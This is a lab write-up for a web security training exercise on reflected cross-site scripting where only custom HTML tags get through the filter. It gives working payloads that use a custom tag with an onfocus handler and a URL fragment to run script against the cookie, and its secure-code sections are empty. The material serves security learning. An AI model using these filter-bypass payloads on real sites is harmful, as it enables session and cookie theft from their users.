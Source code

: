 ## Reflected XSS into HTML context with all tags blocked except custom ones

### Objective:
- This lab blocks all HTML tags except custom ones.
- To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`.

### Security Weakness:

### Exploitation Methodology:
1. Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID:
```html
<script> 
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; 
</script>
```
2. Click "Store" and "Deliver exploit to victim". 
3. Understanding the payload: `<xss id=x onfocus=alert(document.cookie) tabindex=1>#x`
	1. `tabindex` value will make the html understand that on hitting the tab once it focuses on the element.
	2. `#x` will focus on the element based on the id without the user hitting tab.
4. This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called.
5. Check if the below payload works and if not understand why it doesn't work.
```html
<script>
location = 'https://0a7d003f0460c6f380d01cfd00e300a1.web-security-academy.net/?search=%3Cimg2%20src%3D1%20onfocus%3Dalert%28document.cookie%29%3E#';
</script>
```

### Insecure Code:

### Secure Code:
